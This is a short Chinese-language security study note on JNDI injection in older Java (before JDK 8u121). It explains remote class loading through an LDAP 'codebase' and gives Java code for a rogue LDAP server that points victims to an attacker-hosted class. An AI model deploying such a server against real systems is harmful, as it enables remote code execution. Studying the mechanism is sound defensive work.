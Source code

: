 # UrlClassloader

发起一个JNDI请求，一般的方式就是

```java
InitialContext.doLookup("ldap://<ip>:<port>/<entry>")
```

在< jdk8u121 的时候，在`InitialContext.doLookup()`时，会有一个根据`codebase`去加载远程类的操作

**`javax.naming.spi.NamingManager#getObjectFactoryFromReference`**

```java
static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName){
    String codebase = ref.getFactoryClassLocation(); 
    clas = helper.loadClass(factoryName, codebase);
    return (ObjectFactory) clas.newInstance();
}
```

存放`codebase`的`ref`在**`com.sun.jndi.ldap.LdapCtx#c_lookup`*被组装。`attrs`即ldap服务器返回的`attrs`

```java
if (attrs.get(Obj.JAVA_ATTRIBUTES[Obj.CLASSNAME]) != null) {
    // serialized object or object reference
    obj = Obj.decodeObject(attrs);
}
```

要进入这些if判断，需要设置多个`attrs`，如下

```java
javaCodeBase - urlClassLoader路径
javaFactory - 加载类名
javaClassName - 加载类名
objectClass - 固定值javaNamingReference
```



jndi注入攻击中，需要自建一个服务端，用以返回恶意的`attrs`。在java中，可以使用`unboundid-ldapsdk`起一个基本的ldap服务器

```java
InetAddress host = Inet4Address.getByAddress(new byte[]{
    (byte) 0,
    (byte) 0,
    (byte) 0,
    (byte) 0,
});

InMemoryListenerConfig inMemoryListenerConfig = new InMemoryListenerConfig(
    "server",
    host,
    ldapServerPort,
    ServerSocketFactory.getDefault(),
    SocketFactory.getDefault(),
    (SSLSocketFactory) SSLSocketFactory.getDefault()
);

InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=com"); //指定根dn
config.setListenerConfigs(inMemoryListenerConfig);
config.setSchema(null);
//创建一个LDAP Server。加载上文的config
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);

//设置attrs
Entry entry = new Entry("dc=com");
entry.addAttribute("javaCodeBase", httpServerUrl);
entry.addAttribute("javaFactory", className);
entry.addAttribute("javaClassName", className);
entry.addAttribute("objectClass", "javaNamingReference");
ds.addEntries(entry);

ds.startListening();
```



# Reference

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上）](https://paper.seebug.org/1091/)

[搞懂RMI、JRMP、JNDI-终结篇](https://threedr3am.github.io/2020/03/03/%E6%90%9E%E6%87%82RMI%E3%80%81JRMP%E3%80%81JNDI-%E7%BB%88%E7%BB%93%E7%AF%87/)